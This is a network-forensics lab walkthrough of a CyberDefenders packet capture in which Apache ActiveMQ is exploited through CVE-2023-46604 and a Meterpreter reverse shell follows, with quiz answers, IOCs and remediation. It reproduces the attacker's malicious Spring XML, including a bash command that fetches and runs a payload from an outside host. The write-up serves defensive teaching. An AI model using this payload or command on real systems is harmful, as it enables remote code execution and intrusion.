

# OpenWire Lab Walkthrough (CyberDefenders)

> **Lab:** [OpenWire](https://cyberdefenders.org/blueteam-ctf-challenges/openwire/), CyberDefenders
> **Category:** Network Forensics · **Difficulty:** Medium
> **Tools used:** Wireshark
> **Topic:** Apache ActiveMQ remote code execution (CVE-2023-46604) followed by a Meterpreter reverse shell

---

## Table of contents

1. [Scenario](#scenario)
2. [First look: getting oriented](#first-look-getting-oriented)
3. [Q1: The C2 server](#q1-the-c2-server)
4. [Q2: The exploited port](#q2-the-exploited-port)
5. [Q3: The vulnerable service](#q3-the-vulnerable-service)
6. [Q4: The second C2 server](#q4-the-second-c2-server)
7. [Q5: The dropped reverse shell](#q5-the-dropped-reverse-shell)
8. [Q6: The Java class invoked by the XML](#q6-the-java-class-invoked-by-the-xml)
9. [Q7: The CVE](#q7-the-cve)
10. [Q8: The vendor fix](#q8-the-vendor-fix)
11. [How CVE-2023-46604 works, in plain language](#how-cve-2023-46604-works-in-plain-language)
12. [Full attack timeline](#full-attack-timeline)
13. [Indicators of compromise](#indicators-of-compromise)
14. [MITRE ATT&CK mapping](#mitre-attck-mapping)
15. [Recommendations](#recommendations)
16. [Key takeaways](#key-takeaways)

---

## Scenario

We're given a single packet capture (`c119-OpenWire.pcap`, 4,889 packets, about 5 minutes on 2023-12-12). The lab describes it as a Java deserialization vulnerability in Apache ActiveMQ that leads to remote code execution through insecure class loading.


---

## First look: getting oriented

Before answering any question, get the big picture. Don't dive into single packets yet.

**Statistics → Conversations → IPv4 tab**, sorted by Bytes:

| Host A | Host B | Notes |
| --- | --- | --- |
| 134.209.197.3 | 146.190.21.92 | Most of the traffic, about 4.6 MB |
| 134.209.197.3 | 128.199.52.72 | A few packets |
| 134.209.197.3 | 84.239.49.16 | A few packets |

`134.209.197.3` appears in every conversation, so it's **our server** (the victim).

**Statistics → Conversations → TCP tab:**

| Client | Server port | Packets | What it suggests |
| --- | --- | --- | --- |
| 146.190.21.92 | 61616 | 6 | Inbound to us, on an unusual port |
| 134.209.197.3 | 8000 | 13 | We fetched something from the attacker |
| 134.209.197.3 | 80 (128.199.52.72) | 10 | We downloaded something |
| 134.209.197.3 | 443 | about 4,800 | Long outbound session |

> **Mindset:** you already have a rough story before reading a single payload: *someone connected to us on 61616, then we downloaded things, then we held a long outbound connection*. Every question after this confirms a piece of that story.

---

## Q1: The C2 server

> *By identifying the C2 IP, we can block traffic to and from this IP, helping to contain the breach and prevent further data exfiltration or command execution. Can you provide the IP of the C2 server that communicated with our server?*

### What it's really asking
C2 (command and control) is the channel an attacker uses to control a compromised machine. C2 traffic usually:
- is **long-lived**, not a quick request
- goes **both ways**: commands in, results out
- is often **started by the victim** (outbound), because firewalls block inbound traffic more often than outbound
- often uses a port that **blends in**, such as 443 or 80

So we're looking for a conversation with that shape.

### Where to look
1. **Statistics → Conversations → TCP**, sorted by **Duration** or **Bytes**.
2. The top row stands out:
   - `134.209.197.3:43400 → 146.190.21.92:443`
   - about **294 seconds** long
   - about **4.4 MB** from the remote side and about **126 KB** from our server
   - **our server initiated it**, so it's an outbound callback

### Is it really HTTPS?
Port 443 alone proves nothing. Filter on the session:
```
tcp.port == 43400
```
- The Protocol column shows plain `TCP`, never `TLS`.
- There's no Client Hello, no certificate and no SNI.

So this is **port 443 without TLS**, a classic disguise.

### Tie it back to the attack
```
ip.addr == 146.190.21.92
```
The same IP:
- sent traffic to us on **61616** (the exploit, see Q2)
- served a file on **8000** (see Q4 and Q6)
- received the **443** callback

The host that attacked us is the host we called back to. That's not a coincidence.

### Answer
**`146.190.21.92`**

> **Lesson:** *Long + two-way + outbound + linked to the intrusion = C2.* Sort conversations by duration and bytes first.

---

## Q2: The exploited port

> *Initial entry points are critical to trace the attack vector back. What is the port number of the service the adversary exploited?*

### What it's really asking
C2 is how the attacker **stays** in. This question asks how they **got** in. The entry point is a service on our server that accepted an **inbound** connection from the attacker **before** anything else happened.

### Where to look
Show only the connection openings (SYN packets) the attacker sent:
```
ip.src == 146.190.21.92 && tcp.flags.syn == 1 && tcp.flags.ack == 0
```
- There's exactly **one** result: `146.190.21.92:47284 → 134.209.197.3:61616`.
- Every other connection between the two hosts (to ports 8000 and 443) was opened **by our server**. Those are consequences, not the entry.

### Check the order
- The 61616 connection at **13:38:28.055** is the first event.
- Everything else follows within milliseconds.

Cause comes before effect.

### Answer
**`61616`**

> **Lesson:** *Find the first connection the attacker opened to you.* The SYN filter separates inbound connections (how they got in) from outbound ones (what happened after).

---

## Q3: The vulnerable service

> *Following up on the previous question, what is the name of the service found to be vulnerable?*

### What it's really asking
We know the port. Now name the software behind it. **Don't guess from the port number**: services can run on any port. Get proof from the traffic.

### Hypothesis
61616 is the default port for **Apache ActiveMQ**, a Java message broker that speaks the **OpenWire** protocol. That also explains the lab's name.

### Where to look
```
tcp.port == 61616
```
Right-click the first data packet → **Follow → TCP Stream**. The server's first message (a handshake called `WireFormatInfo`) contains:

```
ActiveMQ ... ProviderName ActiveMQ ... PlatformDetails Java ... ProviderVersion 5.18.0
```

The server announced its own name **and version**.

### Answer
**`Apache ActiveMQ`**

> **Lesson:** *The port suggests a hypothesis; the banner confirms it; the version tells you which vulnerabilities apply.* Write down `5.18.0`, because Q7 needs it.

---

## Q4: The second C2 server

> *The attacker's infrastructure often involves multiple components. What is the IP of the second C2 server?*

### What it's really asking
Attackers often split their infrastructure: one server exploits, one hosts the malware, one receives the callback. We know `146.190.21.92`. Which **other** outside IP took part in the attack?

### Candidates
From the first look, there are two other outside IPs: `128.199.52.72` and `84.239.49.16`.

### Check each one
**`128.199.52.72`**: filter `ip.addr == 128.199.52.72`, then Follow TCP Stream.
```
GET /docker HTTP/1.1
Host: 128.199.52.72
User-Agent: curl/7.68.0
```
```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Content-Length: 250
```
- It happens after the exploit.
- The web server is the **same software** as the attacker's port 8000 server (Python SimpleHTTP).

**`84.239.49.16`**: it only made a few inbound connections to 443. Nothing links it to the exploit chain, so it's most likely noise or a scanner.

### Proof, not just correlation
The malicious XML (see Q6) literally names this server:
```
curl -s -o /tmp/docker http://128.199.52.72/docker
```

### Answer
**`128.199.52.72`**

> **Lesson:** *Follow what the exploit tells the victim to do.* The payload points to the rest of the infrastructure.

---

## Q5: The dropped reverse shell

> *Attackers usually leave traces on the disk. What is the name of the reverse shell executable dropped on the server?*

### What it's really asking
A pcap can't show the disk, but **anything written to disk had to arrive over the network first**. Look for:
- the **command** that saved a file, which gives the name and path
- the **download** itself, which confirms it happened

### Step 1: the command
Filter `tcp.port == 8000` and follow the stream of `invoice.xml`. The command inside:
```bash
bash -c "curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker"
```
| Part | Meaning |
| --- | --- |
| `curl -s -o /tmp/docker` | Silent download, saved as `/tmp/docker` (the disk artifact) |
| `chmod +x /tmp/docker` | Make it executable |
| `./tmp/docker` | Run it |

### Step 2: the download
```
ip.addr == 128.199.52.72 && http
```
- `GET /docker` → `200 OK`, `application/octet-stream`, **250 bytes**.
- **File → Export Objects → HTTP** saves it. It starts with `\x7fELF`, so it's a Linux executable.

### Step 3: is it really a reverse shell?
- 250 bytes is far too small for real software. This is **Metasploit shellcode** in a minimal ELF (`msfvenom -p linux/x64/meterpreter/reverse_tcp`).
- Inside it is a network address: `02 00 01 bb 92 be 15 5c` → port `0x01bb` = **443**, IP `0x92.be.15.5c` = **146.190.21.92**.
- About 0.5 s after the download, our server opens a connection to exactly that address (Q1).

### Note the disguise
Naming it `docker` makes it look like a normal process on a server (MITRE T1036.005).

### Answer
**`docker`** (full path `/tmp/docker`)

> **Lesson:** *Disk artifacts show up in the network as downloads.* Find the command, confirm the download, then confirm the behavior. Three independent pieces of evidence.

---

## Q6: The Java class invoked by the XML

> *What Java class was invoked by the XML file to run the exploit?*

### What it's really asking
**Two** Java classes appear in this attack, and the wording decides which one is meant:

| Class | Invoked by | Role |
| --- | --- | --- |
| `org.springframework.context.support.ClassPathXmlApplicationContext` | the **OpenWire message** (port 61616) | Fetches and loads `invoice.xml` |
| `java.lang.ProcessBuilder` | the **XML file** | Runs the OS command |

The question says "invoked by the XML file", so it's the second one.

### Where to look
`tcp.port == 8000` → Follow TCP Stream:
```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
    <list>
        <!--value>open</value>
        <value>-a</value>
        <value>calculator</value -->
        <value>bash</value>
        <value>-c</value>
        <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
    </list>
    </constructor-arg>
</bean>
```

### Reading it
- `class="java.lang.ProcessBuilder"`: create Java's tool for running OS commands.
- `constructor-arg`: give it the command `bash -c "<payload>"`.
- `init-method="start"`: call `.start()` right after creating it, which **runs the command**.

### Attribution clue
The commented-out `open -a calculator` lines come from the **public proof-of-concept** (a "pop calc" test on macOS). The attacker copied a public exploit and only swapped in their payload.

### Answer
**`java.lang.ProcessBuilder`**

> **Lesson:** *When the evidence contains more than one plausible answer, the wording of the question decides.*

---

## Q7: The CVE

> *To better understand the specific security flaw exploited, can you identify the CVE identifier associated with this vulnerability?*

### What it's really asking
Map what you observed to a known vulnerability. You already have the three facts you need:

| Fact | Value | Source |
| --- | --- | --- |
| Product | Apache ActiveMQ | Q3 banner |
| Version | 5.18.0 | Q3 banner |
| Technique | Class name + URL sent over OpenWire → server loads remote XML | Q2 / Q6 |

### Search and confirm
Searching "ActiveMQ 5.18.0 OpenWire RCE" or "ActiveMQ ClassPathXmlApplicationContext" leads to **CVE-2023-46604**:
- **Type:** unsafe deserialization in OpenWire → remote code execution, **no authentication**
- **CVSS:** 10.0
- **Affected:** versions before 5.15.16, 5.16.7, 5.17.6 and **5.18.3**; 5.18.0 is vulnerable
- **Disclosed:** October 2023, and quickly exploited in the wild (for example by HelloKitty ransomware)

### Check the mechanism, not just the name
The attacker's packet on 61616:
```
.... 1f .... org.springframework.context.support.ClassPathXmlApplicationContext
.... http://146.190.21.92:8000/invoice.xml
```
- `0x1f` is the OpenWire **ExceptionResponse** command, which is exactly the message type the CVE abuses.
- It carries a **class name** and a **string**, exactly the two inputs the vulnerable code uses.

### Answer
**`CVE-2023-46604`**

> **Lesson:** *Product + version + observed technique → CVE, then confirm the mechanism matches the packets.* A version alone can match several CVEs; the behavior pins down the right one.

---

## Q8: The vendor fix

> *The vendor addressed the vulnerability by adding a validation step to ensure that only valid Throwable classes can be instantiated, preventing exploitation. In which Java class and method was this validation step added?*

### What it's really asking
The pcap can't answer this; the **patch** can. For open-source software the fix is public, so read the diff.

### Where to look
- The Apache advisory and NVD entry for CVE-2023-46604 link to the fix.
- On GitHub, `apache/activemq`: search the commits for `AMQ-9370` or `validateIsThrowable`, or compare tags `activemq-5.18.2` → `activemq-5.18.3`.

### The diff
`BaseDataStreamMarshaller.java`:
```java
private Throwable createThrowable(String className, String message) {
    try {
        Class clazz = Class.forName(className, false, BaseDataStreamMarshaller.class.getClassLoader());
        OpenWireUtil.validateIsThrowable(clazz);   // <-- added by the fix
        Constructor constructor = clazz.getConstructor(new Class[] {String.class});
        return (Throwable)constructor.newInstance(new Object[] {message});
```
`OpenWireUtil.java`:
```java
public static void validateIsThrowable(Class<?> clazz) {
    if (!Throwable.class.isAssignableFrom(clazz)) {
        throw new IllegalArgumentException("Class " + clazz + " is not assignable to Throwable");
    }
}
```

### Why it stops this attack
`ClassPathXmlApplicationContext` is **not** a `Throwable` (an error type), so it's rejected **before** its constructor runs. No XML is fetched and no command runs.

### Answer
**`BaseDataStreamMarshaller.createThrowable`**
(The helper it calls is `OpenWireUtil.validateIsThrowable`.)

> **Lesson:** *For "how was it fixed" questions, go to the source: advisory → commit → diff.* Reading the patch also confirms you understand the root cause.

---

## How CVE-2023-46604 works.

### Three ideas you need
1. **Class vs. object.** A class is a blueprint; an object is something built from it. Java has thousands of ready-made classes, each with a full name such as `java.lang.ProcessBuilder`.
2. **Building an object runs code.** The constructor runs at the moment the object is built, and some classes do a lot of work there.
3. **Java can build an object from a name stored as text** (called *reflection*):
   ```java
   Class.forName("some.ClassName").getConstructor(String.class).newInstance("some text");
   ```
   That's powerful, and dangerous if an attacker controls the name.

### The service
- **ActiveMQ** is a message broker: a post office for applications. App A drops a message, App B picks it up.
- **OpenWire** is the binary language apps use to talk to it on port 61616. Messages are turned into bytes for the network and rebuilt into Java objects on arrival (*marshalling* / *unmarshalling*).

### The bug: a mailroom clerk who doesn't check forms
One OpenWire message type is **ExceptionResponse**: "something went wrong, here's the error." To rebuild the error object, ActiveMQ reads:
1. the error's **class name**, for example `java.io.IOException`
2. the error **message text**, for example `"disk full"`

It then builds an object of that class with that text. **It never checked that the class name really is an error class.**

### The gadget: a legitimate class with a dangerous constructor
The attacker needs a class that does something useful **when built with a single string**. They chose `ClassPathXmlApplicationContext`, from the Spring framework that ships with ActiveMQ:
- its job is "load the XML config file at this location and set up what it describes"
- its constructor takes one string, the location, and a URL works

So ActiveMQ effectively ran:
```java
new ClassPathXmlApplicationContext("http://146.190.21.92:8000/invoice.xml");
```
Reusing a legitimate class already on the server, instead of uploading code, is called a **gadget**.

### The XML: Spring follows the instructions
Spring XML is a shopping list of objects to build. `invoice.xml` says: build a `ProcessBuilder` with `bash -c "<payload>"`, then call `start()`. Java now runs a shell command as the ActiveMQ user.

### After the exploit: Linux attacker tradecraft
| Stage | What happens | Why |
| --- | --- | --- |
| Dropper | `curl` saves `/tmp/docker`, `chmod +x`, run | `/tmp` is writable by everyone; `docker` blends in |
| Stager | 250-byte ELF connects out to `146.190.21.92:443` | Reverse connection gets past inbound firewalls; 443 looks like HTTPS |
| Implant | Full Meterpreter ("mettle") arrives over that connection and runs **in memory** | Remote control: shell, files, pivoting |
| Encrypted C2 | RSA key exchange in the first packet, then AES for everything after | Commands can't be read from the pcap |

### The whole chain


---

## Full attack timeline

All times UTC, 2023-12-12. Exploit to callback took **0.53 seconds**.

| Time | Source → Destination | Event |
| --- | --- | --- |
| 13:38:28.055 | 134.209.197.3:61616 → 146.190.21.92 | ActiveMQ handshake reveals version 5.18.0 |
| 13:38:28.057 | 146.190.21.92 → 134.209.197.3:61616 | Exploit: ExceptionResponse with `ClassPathXmlApplicationContext` + XML URL |
| 13:38:28.061 | 134.209.197.3 → 146.190.21.92:8000 | Server fetches `invoice.xml` (User-Agent `Java/11.0.21`), twice |
| 13:38:28.116 | 134.209.197.3 → 128.199.52.72:80 | `curl` downloads `/docker` (250-byte ELF) to `/tmp/docker` |
| 13:38:28.580 | 134.209.197.3:43400 → 146.190.21.92:443 | Stager calls back: reverse shell |
| 13:38:28 – 13:43:22 | 146.190.21.92:443 ↔ 134.209.197.3 | Meterpreter session: about 4.4 MB in, 126 KB out, encrypted |

---

## Indicators of compromise

| Type | Indicator | Role |
| --- | --- | --- |
| IP | `146.190.21.92` | Exploit sender, XML host (:8000), C2 (:443) |
| IP | `128.199.52.72` | Stager host (:80) |
| URL | `http://146.190.21.92:8000/invoice.xml` | Malicious Spring XML |
| URL | `http://128.199.52.72/docker` | Stager download |
| File | `/tmp/docker` | Dropped stager |
| SHA-256 | `bb9af7d0d210754cbb6323cde3dbfbc38d666739472a9abd2d99d99dda50b84d` | `docker` |
| MD5 | `8102680b91c6be67d875ddf81707f78c` | `docker` |
| Network | Outbound TCP/443 with no TLS handshake | Meterpreter reverse TCP |
| Banner | `SimpleHTTP/0.6 Python/3.8.10` | Attacker web servers |

---

## MITRE ATT&CK mapping

| Tactic | Technique | Evidence |
| --- | --- | --- |
| Initial Access | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application | CVE-2023-46604 on port 61616 |
| Execution | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell | `ProcessBuilder` runs `bash -c` |
| Command and Control | [T1105](https://attack.mitre.org/techniques/T1105/) Ingress Tool Transfer | `curl` downloads `/tmp/docker` |
| Defense Evasion | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) Match Legitimate Name | Implant named `docker` |
| Command and Control | [T1571](https://attack.mitre.org/techniques/T1571/) Non-Standard Port | Raw Meterpreter on 443 |
| Command and Control | [T1573](https://attack.mitre.org/techniques/T1573/) Encrypted Channel | AES-encrypted Meterpreter session |

---

## Recommendations

**Contain**
- Isolate `134.209.197.3`, keeping it powered on for memory capture.
- Block `146.190.21.92` and `128.199.52.72` in both directions.
- Search firewall and proxy logs for other hosts that contacted these IPs.

**Investigate**
- Capture memory: Meterpreter ran in memory, not on disk.
- Collect `/tmp/docker`, ActiveMQ logs and shell history; look for persistence (cron, systemd, SSH keys, new users).
- Rotate all credentials stored on or used by the server.

**Fix and harden**
- Rebuild from a clean image; deleting the file isn't enough.
- Upgrade ActiveMQ to **5.18.3+** (or 5.15.16 / 5.16.7 / 5.17.6 on older branches).
- Never expose port 61616 to the internet; allow known clients only.
- Restrict server egress so reverse shells can't call out.
- Alert on Java processes spawning `bash` or `curl`, and on non-TLS traffic over 443.

---

## Key takeaways

1. **Start broad** (Conversations), then narrow down. The shape of the traffic tells the story before any payload does.
2. **Inbound SYNs show how they got in; outbound sessions show what happened after.**
3. **Don't trust ports; trust banners and payloads.** Port 443 here carried no TLS at all.
4. **The exploit payload is a map** of the attacker's infrastructure and next steps.
5. **Confirm each answer with at least two independent pieces of evidence.**
6. **Know the limits of network evidence.** Once C2 is encrypted, the next step is host forensics.

## References
- [NVD: CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)
- [Apache ActiveMQ security advisory](https://activemq.apache.org/security-advisories.data/CVE-2023-46604-announcement.txt)
- [ActiveMQ Jira AMQ-9370](https://issues.apache.org/jira/browse/AMQ-9370)
- [MITRE ATT&CK](https://attack.mitre.org/)
